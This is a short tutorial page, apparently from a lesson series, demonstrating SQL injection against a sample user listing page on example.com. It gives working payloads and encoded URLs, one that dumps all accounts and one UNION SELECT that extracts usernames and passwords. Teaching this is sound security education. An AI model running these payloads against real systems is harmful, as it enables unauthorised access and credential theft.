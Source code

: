 
# SQL Injection, part 2

Now we do have a public listing of users:

	/security/view.php

Where you can do SQL injection to view all accounts:

	Amy" OR 1="1

	https://example.com/security/view.php?q=Amy%22+OR+1%3D%221

Or to see the passwords:

	-" UNION SELECT username, password FROM user WHERE ""="

	https://example.com/security/view.php?q=-%22+UNION+SELECT+username%2C+password+FROM+user+WHERE+%22%22%3D%22
